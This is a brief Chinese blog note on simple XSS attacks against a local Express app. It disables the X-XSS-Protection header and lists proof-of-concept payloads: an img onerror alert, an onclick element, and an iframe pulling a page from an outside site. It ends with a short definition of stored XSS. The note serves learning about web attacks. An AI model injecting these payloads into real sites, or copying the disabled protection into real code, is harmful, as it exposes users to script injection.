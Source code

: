 ```yaml
---
layout: post
title:  "XSS简单攻击"
date:   2016-04-28 00:12:55
categories: IT
author : huanghui
---
```

express -e ./  安装express

npm start 启动项目

nodejs 设置不开启浏览器保护 ---->res.set('X-XSS-Protection', 0);

xss=&lt;img src="null" onerror="alert(1)"/&gt;

&lt;p onclick="alert('点我')"&gt;点我&lt;/p&gt;

xss=<iframe src="//baidu.com/t.html"></iframe>

存储型：存储型XSS和反射XSS的差别仅在于，提交的代码会存储在服务器端（数据库，内存，文件系统等），下次请求目标页面时不用再提交XSS代码


